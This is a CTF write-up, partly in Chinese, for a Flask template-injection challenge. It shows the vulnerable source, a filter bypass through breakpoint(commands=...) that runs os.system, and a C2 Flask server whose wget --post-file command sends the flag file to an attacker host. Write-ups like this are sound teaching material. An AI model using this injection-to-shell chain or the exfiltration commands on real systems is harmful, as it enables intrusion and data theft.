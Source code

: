 `CGGC{1Dn_7O_45c11_5o_57R4n9E_11fc26f06c33e83f65ade64679dc0e58}`

### BreakJail Online

```python
@app.route('/SsTiMe', methods=['GET'])
def showip():
    # WOW! There has a SSTI in Flask!!!
    q = request.args.get('q', "'7'*7")

    # prevent smuggling bad payloads!
    request.args={}
    request.headers={}
    request.cookies={}
    request.data ={}
    request.query_string = b"#"+request.query_string

    if any([x in "._.|||" for x in q]) or len(q) > 88:
        return "Too long for me :/ my payload less than 73 chars"

    res = render_template_string(f"{{{{{q}}}}}",
        # TODO: just for debugging, remove this in production
        breakpoint=breakpoint,
        str=str
    )

    # oops, I just type 'res' not res qq
    return 'res=7777777'
```

題目要求
- 不能使用 `.` `_` `|`
- 長度 <= 88
- 清空 request 部分資訊
- python3.140a1

因為在 render_template 中允許使用 breakpoint，而 3.14.0a1 的 breakpoint 中可以使用 `commands` 指定執行的 breakpoint command，可以在裡面執行 python

一個做法是在裡面用 os.system，但因為長度限制和沒有回顯的關係，因此採用 `wget` 下載 sh 指令碼執行 (沒有 `nc`, `curl` 等，因此無法直接 nc 送結果出去)

下載指令 payload (`<ip>` 的地方是 C2 的 IP，點使用 `\x2e` bypass filter):

```!
/SsTiMe?q=breakpoint(commands=["import os;os\x2esystem('wget <ip>:8000/y');;c"])
```

C2 server (`<ip>` 的地方是 C2 的 IP):
```python
from flask import Flask, request

app = Flask(__name__)

@app.route('/y')
def hello_world():
    return 'wget --post-file=`ls /f*` <ip>:8081'

if __name__ == '__main__':
    app.run('0.0.0.0', 8000)
```
